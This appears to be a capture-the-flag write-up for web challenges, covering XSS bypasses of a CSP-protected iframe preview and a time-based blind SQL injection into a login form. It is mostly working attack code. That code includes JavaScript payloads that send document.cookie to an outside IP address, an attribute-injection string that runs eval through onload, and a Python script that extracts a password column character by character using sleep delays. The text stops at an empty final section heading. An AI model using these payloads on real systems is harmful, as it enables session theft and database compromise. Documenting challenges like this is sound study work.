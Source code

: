 ssti

### Post to zuckonit2.0/ Post to zuckonit another version

* only iframe is allowed with CSP protected
* arbitary js to get xss in /preview (unfixed)
* replace the src to `javascript:{PAYLOAD}` to get xss in /peview (fixed)

payload of first version:
```python
payload = "javascript:{window.location.href='http://120.27.246.202:8000/?s='+document.cookie}"
poc = '"+{valueOf: new \'\'.constructor.constructor(atob("%s"))}//'
#print(poc % b64encode(payload.encode()).decode())
```
payload of another version
```
#/preview javascript:{window.location.href=%27http://120.27.246.202:8000/?s=%27+document.cookie}
```

For another another version:

* replace function to search -> 
```data[i].replace(new RegExp(content, 'g'), `<b class="search_result">${content}</b>`)```, so we need to control the content via regex.
* Turns out that you can simply use `|` to match either pattern. So we can control the content
```
pre|123' onload='eval(xxx)' id='
```
then the content becomes `<iframe src='/<b class="search_result">pre|123' onload='alert(1)' id='</b>view` and we got xss.

### Liki-Jail

* sql-i with two params while `'` is forbidden, so only `\` is possible to bypass
* like for `=` 
```python
url = 'https://jailbreak.liki.link/login.php'


def fuzz1():
    res = ''
    for j in range(1, 100):
        print(j)
        for i in string.printable:  # u5ers
            payload = 'or if(ascii(substr((select/**/`p@ssword`/**/from/**/u5ers),'+str(j)+',1)) like ' + str(ord(i)) + ',sleep(3),1)#'
            payload = payload.replace(' ', '/**/')
            data = {
                'username': 'admin\\',
                'password': payload
            }
            t = time.time()
            r = requests.post(url, data=data)
            if 'Invalid' in r.text:
                print('NO')
                break
            if time.time() - t > 3:
                res += i
                print(res)
                break
```
### Arknights
